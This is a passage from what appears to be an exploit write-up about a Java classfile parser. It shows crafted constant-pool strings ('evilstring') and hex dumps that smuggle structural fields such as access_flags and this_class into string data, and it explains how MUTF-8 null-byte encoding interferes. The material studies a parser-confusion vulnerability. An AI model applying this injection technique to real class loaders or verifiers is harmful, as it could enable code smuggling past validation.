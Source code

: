 Now parsing of `access_flags` succeeds and the parser moves on to `this_class`, a two byte index into the constant pool, pointing to the `Class` constant representing the class contained in this classfile. The parser again sees the `65 76` (the "ev" in "\x10\x01evilstring"), and fails, since `65 76` (25974 in decimal) is higher than the maximum constant pool index (1, since we only defined one constant). 

Now, let's create an actual `Class` constant (named "Foo") for `this_class` to refer to, and then try to add its index (`00 02`) to the beginning of evilstring so the parser can parse `this_class`. Evilstring is now "\x10\x01\x00\x02evilstring"

```
.class [2]
.super [0]

.const [1] = Utf8 "Foo"
.const [2] = Class [1]
.const [3] = Utf8 "\x10\x01\x00\x02evilstring"
```

```
00000000: cafe babe 0000 0031 0004 0100 0346 6f6f  .......1.....Foo
00000010: 0700 0101 0000 1001 c080 0265 7669 6c73  ...........evils
00000020: 7472 696e 6700 0000 0200 0000 0000 0000  tring...........
00000030: 0000 00                                  ...
```

The parser successfully parses `1001` as `access_flags`, then moves on to parse `c080` as `this_class`... wait, what? We added "\x00\x02" to our string, but recall that the string data is _MUTF-8 encoded_. This means that the null byte is encoded as the two byte sequence `c080`, so the `0002` we tried to inject turned into `c080 02`. Obviously, `c080` (decimal 49280) is higher than the max constant index (3 now), so parsing fails again. 

One solution is to add enough constant pool entries so that the constants reach index 257 (`0101` in hex), so we can refer to them from inside the injected string data without using null bytes. We'll actually use this technique in the exploit later, but for now, let's look at a different technique that we'll also use later in the exploit, specifically `Int` and `Long` constants.

```
.class [2]
.super [0]

.const [1] = Utf8 "Foo"
.const [2] = Class [1]
.const [3] = Utf8 "\x03evilstring"
.const [4] = Utf8 "whatever"
```

Here we have two changes - evilstring is now just "\x03evilstring", and we added an extra constant _after_ evilstring.

```
00000000: cafe babe 0000 0031 0005 0100 0346 6f6f  .......1.....Foo
00000010: 0700 0101 0000 0365 7669 6c73 7472 696e  .......evilstrin
00000020: 6701 0008 7768 6174 6576 6572 0000 0002  g...whatever....
00000030: 0000 0000 0000 0000 0000                 ..........
```
